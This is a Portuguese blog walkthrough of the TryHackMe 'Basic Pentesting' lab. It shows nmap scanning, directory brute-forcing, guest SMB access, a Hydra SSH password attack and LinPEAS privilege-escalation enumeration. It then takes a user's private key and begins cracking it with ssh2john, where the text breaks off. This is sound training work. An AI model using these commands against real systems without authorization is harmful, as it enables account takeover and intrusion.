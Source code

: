 ```yaml
---
title: 'TryHackMe: Basic Pentesting'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Feroxbuster, Smbclient, Hydra, LinPEAS, SSH file transfer]
image:
  path: assets/images/tryhackme/basicpentesting/room.png
---
```


Olá, Bom dia a todos! Mais um desafio do site tryhackme fresquinho direto do forno para nós completarmos. 

O site está pedindo para nós: "Find the services exposed by the machine" [1], então vamos rodar o nosso famoso NMAP:

``` 
nmap -T4 -sC -sV -Pn -p- 10.10.137.173
```

O site também pergunta: "What is the name of the hidden directory on the web server(enter name without /)?" [2]

Para essa vamos rodar o feroxbuster na porta 80 (webserver), o bom é que o feroxbuster
faz uma busca com recursividade então ele encontra arquivos e diretórios com o comando padrão sem argumento
o problema é que ele faz muito mais requisições que o gobuster por exemplo, logo é mais ruidoso. (https://github.com/epi052/feroxbuster)

![alt text](assets/images/tryhackme/basicpentesting/image1.png)

```
feroxbuster -u http://10.10.137.173/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -r
```

Com feroxbuster conseguimos a resposta para [2] e descobrimos algumas rotas interessantes:

![alt text](assets/images/tryhackme/basicpentesting/image2.png)

![alt text](assets/images/tryhackme/basicpentesting/image3.png)

Ok, só de ler as mensagens já temos uma ideia de que temos que explorar /etc/shadow e provavelmente esses servidores SMB. Vou começar chamando scripts nmap para smb

![alt text](assets/images/tryhackme/basicpentesting/image4.png)

(meu alvo mudou para 10.10.86.35)

```
nmap -p 139,445 --script smb-enum-shares.nse 10.10.86.35
```

Com a saída do nmap podemos acessar usando o usuário guest

```
smbclient //10.10.86.35/Anonymous -U guest
```

Observando o arquivo staff.txt obtivemos dois nomes no arquivo staff.txt: 
```
cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Ok agora teoricamente é uma boa tentar fazer um ataque de força bruta pois ja temos dois usuários: jan e kay. Vamos fazer no ssh da porta 22.

```
hydra -l jan -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.86.35 ssh -t 4
```

O código retorna a senha da jan.

Depois de logar com ssh da conta de jan, quero rodar um script de privilege scalation na máquina da vítima. Não adianta servir o script em um servidor http pois wget recebe permission denied. Para transferencia de arquivos usando SSH se usa scp Além disso, vamos colocar o arquivo dentro de dev/shm na vítima para evitar tomarmos permission denied, visto que essa pasta geralmente todos os usuarios tem permissão para escrita e leitura:

```
scp linpeas.sh jan@10.10.16.37:/dev/shm
```

Agora é só executar o script (conectar na máquina com ssh e executar sh linpeas.sh). Ok o comando me retornou uma chave privada dentro da pasta kay (que eu tinha achado antes mas quis seguir o passo a passo do site. Essa é uma chave privada que podemos copiar o conteúdo para nossa máquina e tentar conectar novamente com o login da kay)

```
(na minha máquina)
ssh -i kay_id_rsa kay@10.10.16.37
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'kay_id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "kay_id_rsa": bad permissions
kay@10.10.16.37's password: 
```

Ok o arquivo tem senha, vamos tentar crackeá-lo usando jhon the ripper. Depois de clonar o repositório no meu PC:

```
john/run/ssh2john.py kay_id_rsa > john.txt
```